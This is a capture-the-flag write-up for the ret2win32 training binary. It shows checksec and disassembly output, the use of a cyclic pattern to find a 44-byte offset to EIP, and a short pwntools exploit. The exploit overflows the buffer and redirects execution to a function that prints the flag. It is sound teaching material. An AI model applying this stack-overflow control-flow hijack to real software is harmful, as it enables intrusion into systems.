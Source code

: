 First of all, use checksec to get some binary information

```
[marco@marco-pc Downloads]$ file ret2win32
ret2win32: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=70a25eb0b818fdc0bafabe17e07bccacb8513a53, not stripped
[marco@marco-pc Downloads]$ checksec --file=ret2win32
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   79 Symbols     No	0		3	ret2win32
```

The file is not stripped, so let's use objdump and gdb (with pwndbg) to get some information from symbol table


```
objdump -t ret2win32
...
080485f6 l     F .text	00000063              pwnme
08048659 l     F .text	00000029              ret2win
...
```

There are 2 interesting functions:
- pwnme, which is called from main, print some strings and get an input;
- ret2win perfom a system comand "cat flag.txt"

```
pwndbg> disassemble ret2win 
Dump of assembler code for function ret2win:
   0x08048659 <+0>:	push   ebp
   0x0804865a <+1>:	mov    ebp,esp
   0x0804865c <+3>:	sub    esp,0x8
   0x0804865f <+6>:	sub    esp,0xc
   0x08048662 <+9>:	push   0x8048824
   0x08048667 <+14>:	call   0x8048400 <printf@plt>
   0x0804866c <+19>:	add    esp,0x10
   0x0804866f <+22>:	sub    esp,0xc
   0x08048672 <+25>:	push   0x8048841
   0x08048677 <+30>:	call   0x8048430 <system@plt>
   0x0804867c <+35>:	add    esp,0x10
   0x0804867f <+38>:	nop
   0x08048680 <+39>:	leave  
   0x08048681 <+40>:	ret    
End of assembler dump.
pwndbg> x/s 0x8048841
0x8048841:	"/bin/cat flag.txt"
```

With a buffer overflow we can control the EIP and then we can jump in the ret2win funciton.
Let's find out how many bytes we need to fill until EIP

```
pwndbg> cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

...

For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

> aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

Program received signal SIGSEGV, Segmentation fault.
...

EIP  0x6161616c ('laaa')

...

pwndbg> cyclic -l 'laaa'
44

...
```

Final exploit:



```python
  1 #!/usr/bin/python3
  2 
  3 import struct
  4 from pwn import *
  5 
  6 ret2win_addr = 0x08048659
  7 
  8 shellcode = ("A"*44).encode()
  9 shellcode += struct.pack("<I", ret2win_addr)
 10 
 11 p = process('./ret2win32')
 12 
 13 p.recvuntil('>')
 14 p.sendline(shellcode)
 15 print(p.recvall())
```
